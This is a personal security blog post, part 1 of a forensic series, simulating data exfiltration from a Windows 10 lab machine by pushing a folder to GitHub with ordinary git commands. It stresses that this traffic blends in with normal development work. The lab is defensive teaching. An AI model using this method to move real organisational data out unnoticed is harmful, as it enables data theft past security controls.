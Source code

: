 ```yaml
---
title: "Data Exfiltration via Git: A Forensic Investigation. Part 1, Exfiltration"
layout: post
categories: [Windows, Registry]
image:
  path: /assets/2024/dataexfil/data_exfiltration.png
  alt: Data exfiltration
---
```

In this two-part blog post, we’ll explore how data exfiltration to GitHub can be carried out from a Windows 10 workstation and how to investigate such incidents. Part 1 focuses on how data can be exfiltrated using Git and GitHub. In Part 2, we'll dive into forensic techniques to retrieve evidence of data exfiltration and determine what was sent from the workstation.

## Why Data Security Matters
With data security becoming increasingly [important](https://www.cbi.eu/news/do-not-underestimate-importance-data-security-data-protection-privacy) for organizations, preventing data loss is a top priority. One well-known precaution is disabling write access to USB devices, but that alone doesn’t address all potential threats. A growing concern is data exfiltration via the internet, where sensitive information could be uploaded to external servers or platforms like GitHub, often without raising alarms.

### Understanding Data Exfiltration
[Data exfiltration](https://www.fortinet.com/resources/cyberglossary/data-exfiltration) refers to the unauthorized transfer of data from one device to another, typically from an internal device to an external, unauthorized one. This can be done by external attackers who’ve gained access to your system or by an insider who either knowingly or unknowingly exposes company data.

Data can be exfiltrated in many ways—through email, cloud storage, or even social engineering techniques. However, **Git-based exfiltration** is more unique because it blends with normal development workflows, making it harder to detect.

### Git and GitHub: Tools of Convenience or Risk?
While working on this website, I used [git](https://www.mennovanveenendaal.com/posts/Building-a-website-using-Github-pages/) and GitHub for legitimate purposes, but it became clear how easily these tools could be used for malicious activities, such as covert data exfiltration.

In corporate environments, Git and GitHub are indispensable for software development. However, giving employees more [privileges](https://en.wikipedia.org/wiki/Principle_of_least_privilege), than they need, especially administrative access. This can lead to potential misuse. Developers often request admin rights to, for example, test their code. These rights can allow Git to be installed or manipulated for unauthorized data transfers.

Why does Git-based exfiltration work so well? Because it looks like regular network traffic, blending in with day-to-day activities. For instance, pushing code to a GitHub repository is common for developers, making it an ideal cover for exfiltrating sensitive data unnoticed.

![GitHub](/assets/2024/dataexfil/github.png)
_Fig.1 GitHub Logo_

### MITRE ATT&CK Framework and Data Exfiltration
The MITRE ATT&CK framework is an industry-standard that categorizes various adversary tactics and techniques. The use of Git for exfiltration falls under MITRE ID [T1567.001](https://attack.mitre.org/techniques/T1567/001/), which covers the exfiltration of data via web services like GitHub.

MITRE highlights that adversaries can use GitHub's APIs over HTTPS, providing an additional layer of stealth, as HTTPS is encrypted and widely used in corporate environments. This makes it much harder for traditional security tools to distinguish between legitimate and malicious traffic.

## Setting Up the Workstation for the Investigation
For this investigation, I set up a Windows 10 Home 22H2 virtual machine, updated it, and installed Git (version 2.47.0.windows.1) along with FTK Imager 4.7.1.2 to capture disk images for analysis. This Windows 10 machine served as the workstation from which the data was exfiltrated.

To simulate the exfiltration, I created a Git repository called `exfiltration_test` and a local folder named `secret_code` where the repository was initialized. I added a README file and committed it to GitHub using the following commands:
```shell
git config --global user.email "<my@email.biz>"
git config --global user.name "<user.name>"
echo "# exfiltration_test" >> README.md
git init
git add README.md
git commit -m "first commit"
git branch -M main
git remote add origin https://github.com/mennovanveenendaal/exfiltration_test.git
git push -u origin **main**
```

I then downloaded a [Chirpy Theme](https://www.mennovanveenendaal.com/posts/Setting-up-the-Chirpy-theme/) ZIP file (acting as "sensitive data") into the `secret_code` folder.
This folder contained:
- 48 folders
- 198 files
- 493,986 bytes of data (770,048 bytes on disk)

This size discrepancy is due to how files are stored, in clusters [on a disk](https://superuser.com/a/66826).  

### Data Exfiltration Simulation
With everything in place, I simulated data exfiltration by pushing the contents of the `secret_code` folder to GitHub with the following commands:
```shell
git add --all
git commit -m "data exfiltration"
git push -u origin main
```
At this point, the data was successfully exfiltrated to GitHub.
![Repository](/assets/2024/dataexfil/repository.png)
_Fig.2 GitHub repository_

## Next Step: Investigating the Exfiltration (Part 2)
After exfiltrating the data, I powered off the workstation. In Part 2 of this blog series, I will investigate the Windows 10 workstation to determine if data was sent to GitHub and what specific data was exfiltrated. By examining the disk images and log files, I’ll show how forensic analysis can uncover traces of these activities.

_This post is also published on the [JDriven blog](https://blog.jdriven.com/2024/10/exfiltration/)_